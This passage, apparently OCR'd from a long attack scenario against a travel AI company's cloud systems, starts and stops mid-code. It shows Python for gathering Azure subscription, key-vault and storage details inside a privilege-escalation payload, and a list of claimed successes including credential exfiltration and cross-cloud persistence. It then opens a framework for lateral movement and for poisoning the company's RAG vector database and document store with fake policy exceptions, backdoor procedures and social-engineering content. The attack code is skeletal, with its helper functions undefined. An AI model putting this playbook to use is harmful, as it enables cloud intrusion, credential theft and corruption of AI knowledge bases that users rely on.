 ```python
        
        def gather_azure_config(credential):
            return {
                'subscription_id': os.environ.get('AZURE_SUBSCRIPTION_ID'),
                'tenant_id': os.environ.get('AZURE_TENANT_ID'),
                'resource_groups': list_resource_groups(credential),
                'key_vaults': discover_key_vaults(credential),
                'storage_accounts': discover_storage_accounts(credential)
            }
        
        # Execute privilege escalation
        escalate_privileges()
        """
        
        return payload
```

**Escalation Success Metrics:**
- **Azure Subscription Access**: Full administrative access via ML service compromise
- **AWS Cross-Account Access**: Shadow resource attack successful in 2 regions
- **API Integration Compromise**: 5 third-party APIs weaponized for backend access
- **Multi-Cloud Presence**: Established persistence across AWS, Azure, and GCP
- **Credential Harvest**: Service accounts, API keys, and certificates exfiltrated

**Phase 4: Comprehensive Lateral Movement and RAG System Poisoning**

With elevated privileges across multiple cloud environments, attackers execute sophisticated lateral movement techniques:

```python
# Advanced lateral movement and data poisoning framework
class TravelAILateralMovement:
    def __init__(self, compromised_credentials: Dict[str, Any]):
        self.credentials = compromised_credentials
        self.target_systems = [
            'vector_database_poisoning',
            'knowledge_base_manipulation',
            'monitoring_system_compromise',
            'cicd_pipeline_injection',
            'api_gateway_backdoor'
        ]
        
    def execute_rag_system_poisoning(self) -> Dict[str, Any]:
        """Poison the RAG system's knowledge base with malicious content"""
        # Target TravelAI's vector database and document store
        poisoning_strategy = {
            'vector_database': 'Pinecone cloud instance',
            'document_store': 'Azure Cosmos DB',
            'target_collections': [
                'travel_policies',
                'booking_procedures', 
                'security_guidelines',
                'customer_service_protocols'
            ]
        }
        
        # Advanced document poisoning techniques
        poisoning_techniques = [
            self.inject_policy_exceptions(),
            self.create_backdoor_procedures(),
            self.modify_security_guidelines(),
            self.plant_social_engineering_content()
        ]
        
        return {
```